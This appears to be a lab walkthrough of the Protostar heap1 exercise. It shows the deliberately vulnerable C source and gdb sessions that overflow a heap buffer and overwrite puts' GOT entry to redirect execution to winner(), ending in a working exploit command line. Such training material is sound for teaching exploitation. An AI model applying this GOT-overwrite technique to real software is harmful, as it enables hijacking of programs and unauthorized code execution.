


#### 21. The Heap: How to exploit a Heap Overflow

`heap1.c`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./heap1 -q
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) r
Starting program: /opt/protostar/bin/heap1

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x804a018 "", src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) r AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 AAAA

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x804a038 "", src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) r AAAA BBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 AAAA BBBB
and that's a wrap folks!

Program exited with code 031.
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH 000011112222333344445555666677778888
Starting program: /opt/protostar/bin/heap1 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH 000011112222333344445555666677778888

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff955 "000011112222333344445555666677778888") at strcpy.c:40
40	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) backtrace
#0  *__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff955 "000011112222333344445555666677778888") at strcpy.c:40
#1  0x0804855a in main (argc=3, argv=0xbffff7f4) at heap1/heap1.c:32
(gdb)
```


- `GOT` Overwrite

```sh
(gdb) set disassembly-flavor intel
(gdb) disassemble 0x0804855a
Dump of assembler code for function main:
0x080484b9 <main+0>:	push   ebp
0x080484ba <main+1>:	mov    ebp,esp
0x080484bc <main+3>:	and    esp,0xfffffff0
0x080484bf <main+6>:	sub    esp,0x20
0x080484c2 <main+9>:	mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:	call   0x80483bc <malloc@plt>
0x080484ce <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:	mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:	mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:	mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:	call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:	mov    edx,eax
0x080484ea <main+49>:	mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:	mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:	mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:	call   0x80483bc <malloc@plt>
0x080484fd <main+68>:	mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:	mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:	mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:	mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:	call   0x80483bc <malloc@plt>
0x08048517 <main+94>:	mov    edx,eax
0x08048519 <main+96>:	mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:	mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:	add    eax,0x4
0x08048526 <main+109>:	mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:	mov    edx,eax
0x0804852a <main+113>:	mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:	mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:	mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:	mov    DWORD PTR [esp],eax
0x08048538 <main+127>:	call   0x804838c <strcpy@plt>
0x0804853d <main+132>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:	add    eax,0x8
0x08048543 <main+138>:	mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:	mov    edx,eax
0x08048547 <main+142>:	mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:	mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:	mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:	mov    DWORD PTR [esp],eax
0x08048555 <main+156>:	call   0x804838c <strcpy@plt>
0x0804855a <main+161>:	mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
0x08048566 <main+173>:	leave
0x08048567 <main+174>:	ret
End of assembler dump.
(gdb) disassemble 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
End of assembler dump.
(gdb) x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483d2
(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGG"`" 000011112222333344445555
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGG"`" 000011112222333344445555

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff961 "000011112222333344445555") at strcpy.c:40
40	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" 000011112222333344445555
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" 000011112222333344445555

Program received signal SIGSEGV, Segmentation fault.
0x30303030 in ?? ()
(gdb) info registers
eax            0x8049774	134518644
ecx            0x0	0
edx            0x19	25
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff72c	0xbffff72c
ebp            0xbffff758	0xbffff758
esi            0x0	0
edi            0x0	0
eip            0x30303030	0x30303030
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x winner
0x8048494 <winner>:	0x83e58955
(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1528647076

Program exited with code 042.
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ ./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1528647110
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ man strcpy
```


```sh
user@protostar:/opt/protostar/bin$ gdb ./heap1 -q
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080484b9 <main+0>:	push   ebp
0x080484ba <main+1>:	mov    ebp,esp
0x080484bc <main+3>:	and    esp,0xfffffff0
0x080484bf <main+6>:	sub    esp,0x20
0x080484c2 <main+9>:	mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:	call   0x80483bc <malloc@plt>
0x080484ce <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:	mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:	mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:	mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:	call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:	mov    edx,eax
0x080484ea <main+49>:	mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:	mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:	mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:	call   0x80483bc <malloc@plt>
0x080484fd <main+68>:	mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:	mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:	mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:	mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:	call   0x80483bc <malloc@plt>
0x08048517 <main+94>:	mov    edx,eax
0x08048519 <main+96>:	mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:	mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:	add    eax,0x4
0x08048526 <main+109>:	mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:	mov    edx,eax
0x0804852a <main+113>:	mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:	mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:	mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:	mov    DWORD PTR [esp],eax
0x08048538 <main+127>:	call   0x804838c <strcpy@plt>
0x0804853d <main+132>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:	add    eax,0x8
0x08048543 <main+138>:	mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:	mov    edx,eax
0x08048547 <main+142>:	mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:	mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:	mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:	mov    DWORD PTR [esp],eax
0x08048555 <main+156>:	call   0x804838c <strcpy@plt>
0x0804855a <main+161>:	mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
0x08048566 <main+173>:	leave
0x08048567 <main+174>:	ret
End of assembler dump.
(gdb) break *0x080484ce
Breakpoint 1 at 0x80484ce: file heap1/heap1.c, line 23.
(gdb) break *0x080484e8
Breakpoint 2 at 0x80484e8: file heap1/heap1.c, line 25.
(gdb) break *0x080484fd
Breakpoint 3 at 0x80484fd: file heap1/heap1.c, line 27.
(gdb) break *0x08048517
Breakpoint 4 at 0x8048517: file heap1/heap1.c, line 29.
(gdb) break *0x0804853d
Breakpoint 5 at 0x804853d: file heap1/heap1.c, line 32.
(gdb) break *0x0804855a
Breakpoint 6 at 0x804855a: file heap1/heap1.c, line 34.
(gdb) break *0x08048566
Breakpoint 7 at 0x8048566: file heap1/heap1.c, line 35.
(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
Starting program: /opt/protostar/bin/heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"

Breakpoint 1, 0x080484ce in main (argc=3, argv=0xbffff824) at heap1/heap1.c:23
23	heap1/heap1.c: No such file or directory.
	in heap1/heap1.c
(gdb) info registers
eax            0x804a008	134520840
ecx            0xb7fd93a0	-1208118368
edx            0x804a000	134520832
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff778	0xbffff778
esi            0x0	0
edi            0x0	0
eip            0x80484ce	0x80484ce <main+21>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/2wx 0x804a008
0x804a008:	0x00000000	0x00000000
(gdb) info proc mappings
process 12412
cmdline = '/opt/protostar/bin/heap1'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0       /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0       /opt/protostar/bin/heap1
	 0x804a000  0x806b000    0x21000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fe0000 0xb7fe2000     0x2000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) x/64xw 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/64xw 0x804a000
>end
(gdb)
```


```sh
(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x00000000
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00020fe1	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000

Breakpoint 2, 0x080484e8 in main (argc=3, argv=0xbffff824) at heap1/heap1.c:25
25	in heap1/heap1.c
(gdb) set $i1 = (struct internet*)0x804a008
(gdb) print $i1
$1 = (struct internet *) 0x804a008
(gdb) print *$i1
$3 = {priority = 1, name = 0x0}
(gdb)
```

```sh
(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a030:	0x00000000	0x00020fd1	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000

Breakpoint 3, 0x080484fd in main (argc=3, argv=0xbffff824) at heap1/heap1.c:27
27	in heap1/heap1.c
(gdb) print *$i1
$4 = {priority = 1, name = 0x804a018 ""}
(gdb) i r
eax            0x804a028	134520872
ecx            0xb7fd93a0	-1208118368
edx            0x804a020	134520864
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff778	0xbffff778
esi            0x0	0
edi            0x0	0
eip            0x80484fd	0x80484fd <main+68>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) set $i2 = (struct internet*)0x804a028
(gdb) print *$i2
$5 = {priority = 0, name = 0x0}
(gdb) print *$i1
$6 = {priority = 1, name = 0x804a018 ""}
(gdb)
```


```sh
(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x00000000
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000

Breakpoint 4, 0x08048517 in main (argc=3, argv=0xbffff824) at heap1/heap1.c:29
29	in heap1/heap1.c
(gdb) print *$i2
$7 = {priority = 2, name = 0x0}
(gdb)
```


```sh
(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x08049774
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000

Breakpoint 5, main (argc=3, argv=0xbffff824) at heap1/heap1.c:32
32	in heap1/heap1.c
(gdb) print *$i1
$17 = {priority = 1, name = 0x804a018 "AAAABBBBCCCCDDDDEEEEt\227\004\b"}
(gdb) print *$i2
$18 = {priority = 1162167621, name = 0x8049774 "҃\004\b"}
(gdb) print $i1->name
$21 = 0x804a018 "AAAABBBBCCCCDDDDEEEEt\227\004\b"
(gdb) print $i2->name
$22 = 0x8049774 "҃\004\b"
(gdb) x $i2->name
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483d2
(gdb)
```





